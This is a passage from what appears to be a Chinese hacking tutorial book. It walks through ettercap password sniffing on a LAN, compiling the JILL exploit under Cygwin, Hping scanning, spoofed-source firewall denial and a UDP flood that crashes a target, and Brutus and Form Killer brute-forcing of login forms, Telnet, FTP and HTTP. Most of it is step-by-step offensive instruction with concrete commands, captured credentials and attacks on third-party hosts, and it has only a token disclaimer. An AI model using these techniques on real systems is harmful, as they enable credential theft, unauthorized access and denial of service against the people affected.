Server: Apache/1.3.20 (Unix) PHP/4.1.2 mod_ssl/2.8.4 OpenSSL/0.9.6a
X-Powered-By: PHP/4.1.2
Keep-Alive: timeout=15, max=100
Connection: Keep-Alive
Transfer-Encoding: chunked
Content-Type: text/html
```

当然，它还可以记下很多网页内容，全是 HTML 源代码，你可以抓下来，用 HTML 后缀保存，再用浏览器打开。好了，你看到的是什么，别人看到的就是什么。不过，它对中文支持不很好，所以别人看见的中文你将无法看到。另一个程序 LCRZOEX 就很不错，在中文终端里，可以把所有中文网页完整抓下来。

一般黑客最感兴趣的无非是密码了，比如下面的组合，h 是帮助，它会提供帮助信息：

```bash
[root@CIEL root]# ettercap -NCzs
ettercap 0.6.0 (c) 2001 ALoR & NaGA
Your IP: *.*.248.226 with MAC: 00:00:E8:7B:0A:4E on iface: eth0
Resolving 1 hostnames...
Press 'h' for help...
Sniffing (IP based): ANY:0 <-> ANY:0
TCP packets only... (default)
Collecting passwords...
[qQ] - quit
[lL] - log all traffic to file(s)
```


```text
space 2 stop/cont sniffing

15:52:51 *.*.248.21.1027 <==> 61.114.4.41.23:telnet
USER: root
PASS: root

15:54:53 *.*.248.46.1041 <==> 61.155.132.99:80 http
USER: dalin
PASS: 7895865
http://www.sohu.com/

16:13:14 *.*.248.192.2278 <==> *.*.249.172.21:ftp
USER: Cshj
PASS: 123456

如果你输入 L，系统在 /ROOT 下会自动生成“20030301-Collected-passwords.log”，里面会记录下所有能嗅探到的密码。看来 Telnet、HTTP、FTP 密码都不能逃过，这些记录简洁明了，在机器上挂一天，不知道可以记录多少了：）

#### 五、后语

总而言之，ETTERCAP 实在是一款很不错的工具，但是有些地方得注意。由于攻击者在嗅探过程中担负了数据转发工作，如果配置比较低或者担负很多机器数据的转发工作的话，常容易丢失些数据包。如果攻击者处在 A 与 B 机中间，当攻击停止时，A 和 B 机得重新建立会话，中间会有一定延时，别人可能会注意到这点。然后最重要的就是关于 ARP 风暴了，如果你自己机器子网掩码是 255.0.0.0，它会发送 255*255*255 个 ARP 请求，即使短时间发送 255 个 ARP 请求，也会有不小的记录，一些检测软件很容易发觉。

### 4.3 使用 CYGWIN 打造你自己的 Exploits

现在的各种入侵已经逐渐转变为 DOS 下或者 UNIX 下进行，但是真正可以在 DOS 下使用的 Exploits 又少之又少，大部分代码必须在 UNIX 下使用 GCC 编译。在多个操作系统中转换是一件很麻烦的事情，而且现在使用 UNIX 的用户又很少。像我们这样的菜鸟想使用新出的溢出代码，只有等待哪位好心人把它编译为 Windows 可用。

今天我要带给各位的就是如何把这些代码转换为 Windows 下可用的 Exploits，要使用到的工具是 Cygwin 1.3.10。

软件下载解压后如图 4-3-1 所示。点击 SETUP 开始安装，出现图 4-3-2 所示。
图 4-3-1

图 4-3-2

第一项是从网络上安装，第二项是从 Internet 上下载，我们要选择第三项，是从硬盘上安装。如图 4-3-3 所示。

我们一切都按照默认安装，Default Text File Type 这里一定要选择 UNIX。下面最关键，一定要按照图 4-3-4 所示来安装，就是所有安装选项都要安装，如果使用默认的话，你的 GCC 就不能使用。
图 4-3-3
图 4-3-4

安装完成后会自动在桌面上生成一个图标，运行。如果你使用过 UNIX 的话，应该不会陌生的。你可以先尝试一下是否可以使用 GCC，先输入 GCC 回车看看，如果出现 NO INPUT FILES 的话，那么恭喜你，你可以开始编译 Exploits 了。我使用的是默认安装，在 C:\cygwin\ 进入目录后发现有一个 HOME 文件夹。进入，然后还有一个文件夹。这个文件夹的名称就是你计算机的名称，所以每个人都不一样。进入后把你收集的代码 COPY 到这个目录，我使用的是 JILL.C，很出名的一个溢出代码。
把 JILL.C 放在目录中，然后运行 CYGWIN 开始编译。输入 GCC -O JILL.EXE JILL.C，等待 1 秒左右，JILL.EXE 就已经编译并且生成好了，和 JILL.C 在一个目录下。图 4-3-5 就是我在编译时候的截图。下面就来测试一下我们编译的结果吧。如果现在就直接运行 JILL.EXE 是不行的，缺少一个 CYGWIN1.DLL 的库文件，在光盘中。得到后把 CYGWIN1.DLL 和你刚才编译好的 JILL.EXE 放在同一个目录下，再次执行就可以看到你编译的成果了。如果大家能看懂代码的话，还可以把代码编译成中文。如图 4-3-6 所示。
图 4-3-5
图 4-3-6

下面是 GCC 使用经常用到的指令：

- `-L` 定义连接库文件的目录；
- `-I` 定义 C 源码的头文件目录；
- `-o` 后面跟的参数为要生成的执行文件名；
- `-O` 进行编译优化，可以指定使用不同的优化级别，从 O2 到 O6，每个不同的级别使用的优化设置不同。

相关的选项还有定义生成的指令码类型的参数，如 `-m486` 生成 486 指令，缺省的 gcc 版本（2.7.2）不支持 Pentium 代码；

- `-g` 加入调试代码，可以在完成后使用 strip 命令删除用于调试的信息；
- `-c` 仅仅进行编译而不进行连接，生成目标文件；
- `-fPIC` 生成相对地址的代码，用于最后生成动态连接库；
- `-static` 强制生成静态连接的程序；
- `-aout` 生成 a.out 格式的执行文件、目标代码等，缺省使用 ELF 格式；
- `-elf` 3.0 之后为缺省设置，生成 ELF 格式的目标和执行代码。

### 4.4 能绕过防火墙的利器——Hping

2002 年 10 月 8 日，安全焦点发布了一则漏洞公告，名为“多家厂商 PC 防火墙自动阻挡操作远程拒绝服务攻击漏洞”。漏洞描述说，一些防火墙具有对恶意攻击自动阻挡的功能，如果某个 IP 对这些防火墙发送高危险级别的攻击，防火墙会自动在不经任何协调情况下阻挡此 IP。换个角度看这个问题，如果有人伪造某合法 IP 攻击这些防火墙，那么，被伪造的合法 IP 与被攻击者的正常数据交换也会被阻挡。已被发现有问题的防火墙有大名鼎鼎的诺顿、黑冰（发现者：Yiming Gong http://security.zz.ha.cn）。这种攻击所借助的工具叫 Hping。下面，我就和大家谈谈这种工具。

#### 一、下载与安装

Hping 是由国外一安全网站推出的，它是一款开放源代码的共享软件。关于它的作者，有关文档大家可以自己去 www.hping.org 查阅，还可以下载到最新的版本。下载回来后，可以看到大小为 202K（2.0 标准版），先解压缩，编译：

```bash
[root@cie1 root]# tar zxpvf hping2-stable.tar.gz
[root@cie1 root]# cd hping2
[root@cie1 root]# ./configure
[root@cie1 root]# make
[root@cie1 root]# make install


```

包里有 libpcap，如果你的 Linux 还没有装它，那先装 libpcap，再安装 Hping。如果没有什么错误的话，一切完成后，直接输入 hping -h，就可以看见 Hping 的各项参数以及简短说明了。

#### 二、如何使用

Hping 是一款非常优秀的 IP 包构造工具，可以用于多种扫描，并可以穿越防火墙，它有以下功能：

- 防火墙探测
- 高级端口扫描
- 网络测试（可以用不同的协议、TOS、数据包碎片来实现此功能）
- 手工 MTU 发掘
- 高级路由（在任何协议下都可以实现）
- OS 指纹判断

Hping 也可以被研究人员用来学习 TCP/IP，在以下 OS 上可以运行：Linux、FreeBSD、NetBSD、OpenBSD、Solaris。目前最新版本为 Hping3（我用的是 Hping2）。

所有选项都可以在图中看见，分为 usage、mode、ip、icmp、udp/tcp、common 六大类，下面简单介绍一下常用参数：

- `-h` 帮助信息
- `-c` 指定发送数据包的次数
- `--fast` 每秒发送 10 次数据包
- `-0, -1, -2, -9` 分别为 RAW IP、TCP、UDP、LISTEN 模式，缺省为 TCP 模式
- `-T` 路由模式
- `-a` 源地址欺骗
- `-p` 目标主机端口

如图 4-4-1 所示。
图 4-4-1

- `-C` ICMP 类型；
- `-K` ICMP 代码；
- `-d` 数据包大小；
- `-T` 路由模式；
- `-D` debug；
- `-b --badcksum` 发出一个错误校验和的 UDP/TCP 包；
- `-F --fin` set FIN tcp flag；
- `-S --syn` set SYN tcp flag；
- `-R --rst` set RST tcp flag；
- `-P --push` set PUSH tcp flag；
- `-A --ack` set ACK tcp flag；
- `-U --urg` set URG tcp flag；

如图 4-4-2 所示。

### 三、具体使用

```bash
[root@cie1-root]# hping 202.114.4.35 -c 1
eth0: default routing interface selected (according to /proc)
HPING 202.114.4.35 (eth0 202.114.4.35): NO FLAGS are set, 40 headers + 0 data bytes
46 bytes from 202.114.4.35: flags=RA seq=0 ttl=125 id=63575 win=0 rtt=10.0 ms

--- 202.114.4.35 hping statistic ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 10.0/10.0/10.0 ms


```
图 4-4-2

```bash
[root@cie1 root]# hping 202.114.4.41 -c 1
eth0 default routing interface selected (according to /proc)
HPING 202.114.4.41 (eth0 202.114.4.41): NO FLAGS are set, 40 headers + 0 data bytes

--- 202.114.4.41 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

可以看出，A 主机很快做出反应，B 主机却没任何回应，原因是：AIX、HP-UX 等主机不会发送 ICMP 的某些错误报文。换个方法，刚刚发的数据包是默认的 TCP，现在再发送 ICMP 类型的无内容数据包。

```bash
[root@cie1 root]# hping 202.114.4.35 -c 1 -1
eth0 default routing interface selected (according to /proc)
HPING 202.114.4.35 (eth0 202.114.4.35): icmp mode set, 28 headers + 0 data bytes
--- 202.114.4.35 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms

[root@cie1 root]# hping 202.114.4.41 -c 1 -1
eth0 default routing interface selected (according to /proc)
HPING 202.114.4.41 (eth0 202.114.4.41): icmp mode set, 28 headers + 0 data bytes
46 bytes from 202.114.4.41: icmp_seq=0 ttl=252 id=11243 rtt=51.6 ms

--- 202.114.4.41 hping statistic ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 51.6/51.6/51.6 ms
```

A 主机没有回应，B 主机却有了反应（这种现象是因为操作系统的差别引起的）。怎样探测主机操作系统呢？

OK，下面就选 A 主机单独测试。先探测 TCP 的开放端口，这个很容易实现。先选择 139，因为 Windows 的机器一般都开这端口的。

```bash
[root@cie1 mscan]# hping 202.114.4.35 -c 1 -S -d 12 -p 139（意义是发送一个52 BYTES的SYN标志的数据包到对方139端口）
eth0 default routing interface selected (according to /proc)
HPING 202.114.4.35 (eth0 202.114.4.35): S set, 40 headers + 12 data bytes
46 bytes from 202.114.4.35: flags=SA seq=0 ttl=125 id=8900 win=16616 rtt=60.5 ms
```

下面再探测 13 号端口：

```bash
[root@cie1 mscan]# hping 202.114.4.35 -c 1 -S -d 12 -p 13
eth0 default routing interface selected (according to /proc)
HPING 202.114.4.35 (eth0 202.114.4.35): S set, 40 headers + 12 data bytes
46 bytes from 202.114.4.35: flags=RA seq=0 ttl=125 id=8907 win=0 rtt=38.8 ms
```

由此推测出主机 139 端口开放，13 号端口关闭，原因是发送一个 SYN 标志位的数据包。如果主机对应端口开放，返回的包类型应为 SA 类；如果端口没开，返回包的类型应为 RA 类。下面换个方法，探测 UDP 端口。

```bash
[root@cie1 root]# hping 202.114.4.35 -c 1 -2 -p 89（意义是发送一个只有头的UDP数据包到对方的89端口）
eth0 default routing interface selected (according to /proc)
HPING 202.114.4.35 (eth0 202.114.4.35): udp mode set, 28 headers + 0 data bytes
ICMP Port Unreachable from 202.114.4.35 (jwc.hust.edu.cn)

[root@cie1 root]# hping 202.114.4.35 -c 1 -2 -p 135
eth0 default routing interface selected (according to /proc)
HPING 202.114.4.35 (eth0 202.114.4.35): udp mode set, 28 headers + 0 data bytes
```

主机的 UDP 135 端口开放，UDP 89 端口关闭。只要关闭的端口一律有“ICMP Port Unreachable”一句；如果端口打开，则无任何回应。知道了这个道理，就可以用 Hping 来探测主机 UDP 的开放端口。当然，这是在主机没开防火墙等前提下才可以实现，如果主机开了防火墙，无论如何，是什么回应都没有的。

TCP 的 139 和 UDP 的 135 端口都开放，基本可以判断对方是 Windows 的机器了。

下面我们来详细看看 202.114.4.35 的操作系统。

```bash
[root@cie1 root]# hping -1 -c 1 -K 77 202.114.4.35（意义是发送一个代码为77的ICMP包到对方）
HPING 202.114.4.35 (eth0 202.114.4.35): icmp mode set, 28 headers + 0 data bytes
46 bytes from 202.114.4.35: icmp_seq=0 ttl=125 id=65080 rtt=40.1 ms
下面是Snort的记录
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
10/28-16:25:41.688725 202.114.4.35 -> 192.168.3.120
ICMP TTL:125 TOS:0x0 ID:65080 IpLen:20 DgmLen:28
Type:0  Code:0  ID:5129  Seq:0  ECHO REPLY
```

因为回应的 code 为 0，所以再次判断出 202.114.4.35 是 Windows 操作系统。再发送一个数据包。

```bash
[root@cie1 root]# hping -1 -o 1 -c 1 202.114.4.35（发送一个tos为1的只有头的数据包到主机）
HPING 202.114.4.35 (eth0 202.114.4.35): icmp mode set, 28 headers + 0 data bytes
46 bytes from 192.168.3.254: icmp_seq=0 ttl=125 id=65510 rtt=50.5 ms
Snort 的记录如下：
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

```text
10/28-16:27:28.138046 192.168.3.120 -> 202.114.4.35
ICMP TTL:64 TOS:0x1 ID:40963 IpLen:20 DgmLen:28
Type:8 Code:0 ID:6153 Seq:0 ECHO
-------------------------------
-------------------------------
10/28-16:27:28.181303 202.114.4.35 -> 192.168.3.120
ICMP TTL:125 TOS:0x0 ID:65510 IpLen:20 DgmLen:28
Type:0 Code:0 ID:6153 Seq:0 ECHO REPLY
```

TOS的回应是0x0，与第一次的0x1不同，因此可以判断，这是Windows 2000的机器。如果回应的TOS为0x1，那么，这主机就是Windows 98或Windows Me的了。

细心的读者一定会问：Windows的机器一般TTL为128，上面输出却怎么只有125？没问题，现在试试Hping的路由功能，输入：

```text
[root@ciel root]# hping 202.114.4.35 -T （查看途中经过的路由）
eth0 default routing interface selected (according to /proc)
Hping 202.114.4.35 (eth0 202.114.4.35): NO FLAGS are set, 40 headers + 0 data bytes
1 -> TTL 0 during transit from 192.168.3.254 (unknown host name)
1 -> RTT was: 12.8 ms
2 -> TTL 0 during transit from 192.168.2.1 (unknown host name)
2 -> RTT was: 67.0 ms
3 -> TTL 0 during transit from 192.168.1.13 (unknown host name)
3 -> RTT was: 45.8 ms
46 bytes from 202.114.4.35: flags=RA seq=33 ttl=125 id=24906 win=0 rtt=52.9 ms
46 bytes from 202.114.4.35: flags=RA seq=34 ttl=125 id=24907 win=0 rtt=76.3 ms
```

看到了吧，途中经过3台主机，125+3恰好等于128。

其实，构造ICMP数据包探测主机早已不是什么新技术，有一种叫做xprobe的工具就是利用了这个原理探测主机操作系统的，速度、准确率都相当不错。

## 攻击

以上只介绍了Hping的基本用法，作为一款数据包构造工具，它还有很多其他强大的功能，下面就介绍一下它怎样攻击探测防火墙。目标：Windows 98 SE+天网注册版，IP:192.168.3.112。

还是先谈谈开始提到的那个漏洞吧，原理是伪造一个假的IP攻击对方。

```text
[root@ciel root]# hping 192.168.3.112 -c 1 -1 -a 192.168.3.254（以192.168.3.254的地址发送一个TCP包到192.168.3.112）
eth0 default routing interface selected (according to /proc)
Hping 192.168.3.112 (eth0 192.168.3.112): NO FLAGS are set, 40 headers + 0 data bytes
```

对方开了防火墙的记录如下：192.168.3.254试图用ping来探测本机，该操作被拒绝。这里没任何反应。

其实，即使对方没开防火墙，我们也收不到任何回应，反馈出的数据包将会发到192.168.3.254。应用这种原理，如果输入hping 192.168.3.25 -c 1 -1 -a 192.168.3.112（假设192.168.3.25没开防火墙），192.168.3.112的防火墙将会记录如下：192.168.3.25试图用ping来探测本机，该操作被拒绝。

如果192.168.3.112用的是黑冰或者诺顿，我们输入hping -p 31335 -e PONG -2 192.168.3.112 -c 50 -d 40 -a 192.168.3.254（192.168.3.254为网关），黑冰或诺顿将会自动阻拦3.254与3.112间的所有数据，包括合法与不合法的。这样，192.168.3.112将上不了网。

用下面的方法可以绕过天网了解对方是否开机：

```text
[root@ciel-root]# hping 192.168.3.112 -c 1 -d 111
eth0 default routing interface selected (according to /proc)
Hping 192.168.3.112 (eth0 192.168.3.112): NO FLAGS are set, 40 headers + 111 data bytes
46 bytes from 192.168.3.112: flags=RA seq=0 ttl=32 id=45824 win=0 rtt=1.7 ms
```

此时，防火墙却没有任何记录。呵呵，看来这种没有标志位的数据包天网是一概不理会的。经过测试，发现天网对FIN、PUSH、ACK、URG标志位的数据包也一概不理会，仅过滤了SYN标志位的数据包（据说，如果向目标主机发送一个FIN、URG、PUSH分组，如果被探测端口是关闭的，会发回一个RST标志，这种方法还可以绕过防火墙，从而得到防火墙后的主机信息。我们也曾测试过，不过结果并不令人满意）。

下面探测一下主机的UDP屏蔽情况，先测试5390号端口：

```text
[root@ciel-mscan]# hping 192.168.3.112 -p 5390 -2
eth0 default routing interface selected (according to /proc)
Hping 192.168.3.112 (eth0 192.168.3.112): udp mode set, 28 headers + 0 data bytes
ICMP Port Unreachable from 192.168.3.112 (unknown host name)
```

再探测它的UDP 135端口：

```text
[root@ciel-mscan]# hping 192.168.3.112 -p 135 -2
eth0 default routing interface selected (according to /proc)
PING 192.168.3.112 (eth0 192.168.3.112): udp mode set, 28 headers + 0 data bytes
```

现在，可以看出对方的UDP端口开放情况，135端口开放。从这也可以看出，天网对UDP是不加以约束的。

下面探测TCP端口开放情况：

```text
[root@ciel-root]# hping -d 12 192.168.3.112 -p 1600
eth0 default routing interface selected (according to /proc)
Hping 192.168.3.112 (eth0 192.168.3.112): NO FLAGS are set, 40 headers + 12 data bytes
46 bytes from 192.168.3.112: flags=RA seq=0 ttl=32 id=40943 win=0 rtt=3.2 ms
此时，snort的/var/log/snort/下会生成名为192.168.3.112的文件夹，记录如下：

[*] spp_stream4: STEALTH ACTIVITY (NULL Scan) detection [*]
10/30-21:59:49.106028 192.168.3.120:1068 -> 192.168.3.112:1700
TCP TTL:64 TOS:0x0 ID:5544 IpLen:20 DgmLen:52
****** Seq: 0x7736652F Ack: 0x3C72DA3B Win: 0x200 TcpLen: 20


```

如果此端口被屏蔽了，Snort将什么都记录不下。经探测，天网屏蔽TCP最高端口在1600—1700间不等。

经过上述测试，现在构造如下命令：hping 192.168.3.112 -p 135 -2 --fast -d 65000，对方机器立即变慢，出现卡死现象，不出3分钟就死机，防火墙却毫无报警。这种攻击是了解防火墙规则后，绕过防火墙向对方UDP 135端口发送大量的UDP数据包，使对方机器应付大量垃圾数据而无法正常工作甚至死机。有一种叫UDP FLOOD的工具就是利用这种原理攻击别人机器的。

### 4.5 利用“FORM KILLER”破解网页表单密码

一日在网上闲逛，收到了好友的求救信号，原来他忘了个人网页的登录口令。在问清他是用表单提交以后，我便本着助人为乐的精神帮他暴力破解。

因为是在网吧里上网，所以先做点“准备运动”。解除IE限制的方法很多，我这人特懒，便用了一个最简单的方法：登录一个可以在线破解万象退出密码的网站（http://www.cy07.com），然后就进入Windows的原始界面。点击“IE属性”——“自定义安全级别”——“允许下载”，准备运动完毕，现在开始开工。先下载“Form Killer”。运行后，可以看见它的初始界面有一点像一款网页浏览工具。在它上面的地址栏中输入我好友的网页：www.xxx.com，点击“go”后就可以看见“Form Killer”的工作界面：左边是我填上的网页和表单登录页面，中间是与网页登录页面相对应的表单。“UserID”是“用户名”，当然“UserPWD”就是“密码”了。在右上方的“Response Form”显示的是该网页的源码，右下方则是关键字输入栏和字典选择栏。好了，在“UserID”中输入用户名：XXX。“UserPWD”中就随手填一个数字，然后提交当前表单，这时网页上显示出了“密码错误！”的提示语。在网页的源码中找到这句“密码错误！”，然后拖拽到关键字输入栏中，这时弹出了一个“你确定选择（密码错误！）作为关键字吗？”的对话框。点击“确定”后，便在“Form Killer”附带的9本字典中选了一本，单击“开始暴力破解”，接下来就是等待。你不妨去喝喝茶，一会儿，“Form Killer”便弹出警告框提示破解出的密码。当然，破解时间的长短要看选的字典是否合适和运气了。

有的“老鸟”爱用“溯雪”来破解表单密码，但“溯雪”的English含量太高，而且使用起来也很复杂，所以像我这种“菜鸟”就只好忍痛将其“束之高阁”了。

## 4.6 超级网络解谜之王Brutus

在现实生活中，密码就如同影子一样伴随着我们，比如各种各样的门、抽屉的锁，钥匙的形状可以理解为密码的形式。尤其在网络世界中，密码更是重中之重。如果丢失了密码，轻则隐私曝光，重则带来损失，甚至危害国家的安全，所以，一定要高度重视密码的保护。

本文将介绍如何破解网上的密码，借以检查自己的密码是否安全。笔者在此郑重声明：本文所讲述到的技术，只作为研究、检查之用，如果有人利用本文的技术来破解他人的密码，由此带来的一切法律责任，笔者概不负责。

自UNIX诞生以来，口令攻击法一直是百试不爽的法宝。它的原理是：主机的用户采用一个英语单词或者姓氏拼音的缩写来作为密码，通过黑客特别编制的程序，自动从字典文件中取出一个单词，作为用户的密码输入远程主机，尝试进入系统。如果不成功，就按顺序取下一个单词进行下一次尝试，如此循环，直至找到正确的密码或字典文件的全部单词试完为止。

在计算机系统中，一般情况下可以做密码的字符有：10个阿拉伯数字，52个大小写英文字母，32个符号，共94个字符。其他字符都是不能由键盘输入的控制字符和转义字符。如果密码是5个英文字母和一个阿拉伯数字或符号组合的，那么取值的可能性是：

52×52×52×52×52×(10+32)=15,968,569,344

大约是159亿种可能性。看起来数目很大，几乎不可能破解是吧？那么我们再来看一看，如果那5个英文字母是取自有意义的英文单词的话，假设常用的英文单词按5000个算，这么一来取值的可能性是：

5000×(10+32)=210,000

即21万种可能性。拿古董级的Pentium计算机来说，破解这样的密码只要几分钟就可以轻松拿下。

《黑客防线》网站的新闻栏目提到，在全球黑客入侵事件当中，中国已排名世界第三位。但是，有人说得好，这只表明由中国黑客研发的工具在中国的普及程度，使用黑客工具的人数以及参加流氓般的网络斗殴才得以挤上世界前列。所以，有志于提高国内网络安全的读者应该明白，工具是助手，技术才是灵魂。

在中国，一般用的是小榕开发的流光之类的工具，那么国外的黑客是靠什么工具呢？那就是本文即将提到的主角——目前在国内尚不为广大网友所熟悉的破解网络密码的工具——Brutus。

Brutus是英国伦敦的Hoobie公司的自由软件，可以到它的官方站点http://www.hoobie.net/brutus下载。当前版本是Brutus-AET2，大小是331KB。它可以称作是一个快速的、具有相当灵活性的远程在线密码破解器。

从网上流传的质量比较低劣的诸如FTP口令破解器、POP3口令破解机之类的软件来看，这些软件功能单一、性能低下，当然也有一些软件集成了部分功能，但功能仍然有限，如wwwhacker、entry只能破解HTTP、POP3和FTP 3种认证密码，而Brutus却能够破解任何认证系统的密码。如一般的认证系统如Telnet、FTP、POP3等基于明文的密码传送，对Brutus而言就是小菜一碟。不过话说回来，如果认证系统使用了SSL之类的加密系统，那么Brutus就无用武之地了。Brutus内置了很多密码认证的设定，可以在它主界面中的Type下拉菜单看到（图4-6-1）。

如HTTP(Basic Auth)、HTTP(Form)、FTP、POP3、Telnet、SMB(NetBIOS)、Custom等等。像网友平时收发邮件、文件下载、填写网页表单等等，Brutus都包括了！还可以到其官方站点下载BAD文件，放到Brutus所在的目录，扩充Type中Brutus能够破解认证系统的数量。现在官方的BAD文件有NetBus、Example su root、Cisco Console、Cisco Enable、Shiva LANRover(console)、NNTP(News Servers)、SMTP VeRiFY Users、SMTP ReCiPieNT Users等8个认证系统。不过可以自己做BAD文件，来扩充Brutus破解认证系统的种类，这样就体现了Brutus的灵活性。那个Type中的Custom是用户自定义认证过程。例如，想破解没有内建在Brutus的认证，如IMAP4认证系统，就要使用Custom来定制认证系统破解了，但需要用户具备网络协议的知识，不然没得玩……看到了吧，这再次印证了“工具只是助手，技术才是灵魂”这个说法！

总的说来，Brutus包含如下特点：

- 可以破解基于明文传送的多种认证系统；
- 可以同时发生60个目标主机连接；
- 具备无用户名、单用户名、多用户名3种模式；
- 具备口令文件、用户/口令联合文件和可配置的暴力破解口令3种模式；
- 可以高度自由定制认证过程；
- 可以引入或恢复保存的任务；
- 可以导入和导出自定义的认证系统为BAD文件；
- 对于所有的认证系统的破解都支持SOCKS代理；
- 用户和口令列表可以产生或由程序生成；
- 可以破解以HTML传送的HTML Form/CGI认证系统；
- 错误处理和恢复能力，包括崩溃或失败后恢复。
图4-6-1
图4-6-2

下面先讲解Brutus主界面各部分的含义，见图4-6-2。

### 在主界面的第一部分中

Target：添加目标主机的IP、主机名或域名。

Type：选择要破解的认证系统类型，也就是前文提到的HTTP(Basic Auth)、HTTP(Form)、FTP、POP3等等。

### 在第二部分中

Connection Options框：用来定义连接目标设置。

Port：添加目标主机的端口。

Connection：设定同一时刻保持的连接数目，默认为10；此数字如果显示为黄色，则表明有可能出现不能正常运行的情况，红色则表示很可能会出现运行错误。Connection数目的设定要视网络类型而定，如果是宽带或局域网，则可以设大一点，如果是拨号上网就要小一点。

Timeout：设定连接超时时间。此项的设定也要视网络类型而定，宽带或局域网可以设小一点，而拨号上网设大一点。

Use Proxy：不用笔者多费口舌吧？这是设定代理服务器的，主要是为了防止自己的活动被别人发现。

### 在第三部分中

这部分的内容会随所选择的认证系统的类型而不同，如选择HTTP(Basic Auth)则显示为图4-6-3，选择HTTP(Form)则显示为图4-6-4。
图4-6-3    图4-6-4

选择FTP显示为图4-6-5，选择POP3显示为图4-6-6。
图4-6-5    图4-6-6

选择Telnet显示为图4-6-7，选择SMB(NetBIOS)显示为图4-6-8。
图4-6-7    图4-6-8

选择Custom以及扩充的插件都显示为图4-6-9。
图4-6-9

### 在第四部分的Authentication Options中

此处是用来设置解密方式的。Use Username：是否使用用户名；如果登录目标系统不需要用户名，如Cisco Console，则不选择此项。
```

Single User：是否使用单独用户名。

User File：如果选择 Use Username 选项，则在此处指定用户名文件。反过来，如果选择 Single User，则在此处填写要破解的用户名字。

Password Mode：选择破解密码的方法。有 3 种方式可选：Word List、Combo List 和 Brute Force。Word List 是以一个用户名文件和 Pass File 指定的口令文件逐个配对来破解密码的，这是一个典型的破解密码的方法，也就是字典攻击法。

Combo List 是将用户名和口令放在同一个文件中，而不是两个独立的用户名文件和口令文件。此文件中，每一行都放用户名和口令，用在 Delimiter 指定的分隔符号加以分隔，分隔符号有 :、Tab、| 3 种。下面是该文件的一个样式：

```
admin:
admin:admin
admin:password
admin:admin1
admin:admin12
admin:admin123
admin:adminpass
```

Brute Force 是暴力破解口令的方法，由用户自己定义密码的可能取值。选中此模式后点“Range”按钮，就出现密码设定窗口（图 4-6-10）。

图 4-6-10

此处可以设定 7 种设置：纯阿拉伯数字、小写英文字母、大写英文字母、大小写混合英文字母、字母数字混合、详细键间距、自定义范围。并且可以定义密码组合最小和最大的长度。

在第五部分中，上面的框是显示结果的区域，下面的框是显示 Brutus 的状态。

在第六部分中，显示 Brutus 破解口令的进度，右边的是错误提示，有 5 个：Timeout、Reject、Auth Seq、Throttle 和 Quick kill。

破解 Telnet 需要一点技巧，不同系统的提示符是不一样的，有的是 Login，有的是 login。为了避免认证上的大小写的麻烦，Brutus 内置的破解 Telnet 系统的选项中的 Modify sequence，UserID prompt 内为“ogin”，从而避免检查第一个字母带来的麻烦。有些系统的登录提示符是 Username 或 username，可以在这里更改为“sername”。Force read of at last 是为了保证当网络传送数据不完整时，也能输出资料。UserID format 是设定用户名称和密码，破解 Telnet 不用设置此处。最右边的下拉菜单是选择将资料输入 Telnet 服务器的动作方式，有 3 个可供选择：CR、None、CR+LF，分别是结束、无任何动作、回车的含义。一般选择 CR+LF。Authentication sequence 中的 Password phase 的设定和 UserID phase 类似，不再赘述。

下面的 Response sequence 是用来设定判断目标是否成功被破解。举例来讲，Telnet 服务器在不成功登录的时候，会返回“incorrect”或“password”的消息，Brutus 就会认为没有成功登录，故可以在 Auth response string 中填关键字，在 Response is positive authentication 打勾设定成功登录的信息。Selected target response string 有两个选项：Primary 和 Secondary。

Force read of at last 和上面的作用一样。On match action 是用来设定当目标主机返回的消息与预设不一致的时候，采取什么样的动作。一般可以选择 Send UserID Phase 来继续猜测密码（图 4-6-11）。右上角的 View 按钮是用来监视破解的过程的，类似某些服务器软件的 Debug（图 4-6-12）。

一般地，使用 Brutus 内置破解 Telnet 的默认设置能够破解绝大多数系统的 Telnet，下面是 Brutus 成功破解远程 Linux 主机的名为 suying 的账户密码的情景（图 4-6-13）。破解 POP3、FTP 的方法类似，就是选择要破解的认证系统后，分别设置一下用户名和口令名文件，然后就可以开始破解了，下面是破解 fcceec.net 上的名为 lzy 的 FTP 用户的情景（图 4-6-14、图 4-6-15）。其中，Brutus 破解 FTP 认证系统相当于手动如下操作：

telnet hacker.com.cn 21

和平时所用的方法：ftp hacker.com.cn 不一样。这是因为用 Telnet 的方法的时候，需要手动输入下面两条指令：

```
user 用户名
pass 口令
```

而 FTP 方式下，系统会分别出现两个提示符：User 和 Password，需要你分别输入。为了节省登录失败时再次登录 FTP 服务器的时间，Brutus 采用 Telnet 方式登录 FTP，破解 FTP 认证系统的相关设置 Brutus 已经设置好（图 4-6-16）。

有时候访问某网站，会弹出一个登录窗口，见图 4-6-17。

Brutus 的破解 HTTP(Basic Auth) 可以解决这种问题。设置好 Port 号及其他相关设置后就可以进行破解，如笔者试图破解 Dnews 的 Web 管理站点，它的端口是 7119，故 Port 选择 7119。使用 Brutus 的默认设置就可以，下面是破解成功的情景（图 4-6-18）。

大家一定玩过 Web Email、Web BBS 什么的，它们都需要登录才能使用，Brutus 的 HTTP(Form) 就是专门破解这些认证系统的。大多数 Web 网站的登录都是以表单形式提交的，故 HTTP(Form) 非常有用。

由于网站上的网页编写有很大的自由性，所以破解这类网站的难度比较大，也比较灵活自由，需要在 Brutus 设置很多地方，此处笔者列举如何破解笔者所在单位局域网的 BBS，这是雪傲论坛推出的 JB5000II 系列。

先分析哪些字段代表用户名和口令的变量，打开 BBS 后查看源代码（图 4-6-19）。

注意图中以高亮显示的那一行：

```
&nbsp;用户名：<input type=text name="inmembername" size=12 maxlength=16>    密码：<input type=password name="inpassword" size=12 maxlength=20>
```

从而知道雪傲论坛的登录表单相关字段中，用户名变量为 inmembername，相应的口令变量为 inpassword。好，让我们开始，Go！

选择破解 HTTP(Form) 认证系统后，点击 HTTP(Form) Options 框中最右边的“Modify sequence”按钮，在弹出的菜单中（图 4-6-20）：

